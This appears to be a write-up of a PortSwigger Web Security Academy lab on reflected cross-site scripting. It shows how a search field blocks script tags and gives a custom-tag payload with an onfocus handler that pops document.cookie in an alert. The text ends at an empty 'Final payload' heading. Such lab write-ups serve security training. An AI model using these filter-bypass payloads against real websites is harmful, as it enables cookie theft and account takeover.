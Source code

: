 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d01a2cb7-14e4-448a-8d23-3dfa0747a8fd)

## Solution :

The search term is reflected in the page response embedded within `<h1>` tags.

```js
<h1>5 search results for 'Hi'</h1>
```
When we enter `<script>`in the search field, it gets blocked.

### Use custom tags -

The search url is as follows - 

```
https://0a96000b03ae5d4b80e03a7000a2002d.web-security-academy.net/?search=hello
```

We can use the following payload to pop an alert with document.cookie.

```html
<shebu onfocus=alert(document.cookie)  tabindex=1 id=1';
```

- `shebu` - custom tag.
- `onfocus=alert(document.cookie)` - whenever the particular tabindex is focussed, it will trigger a alert.
- `tabindex=1` - when tab in pressed 1 time , it will get selected.
- `id=1` - this will help us to specify which tabindex to use.

  ### Final payload -

  
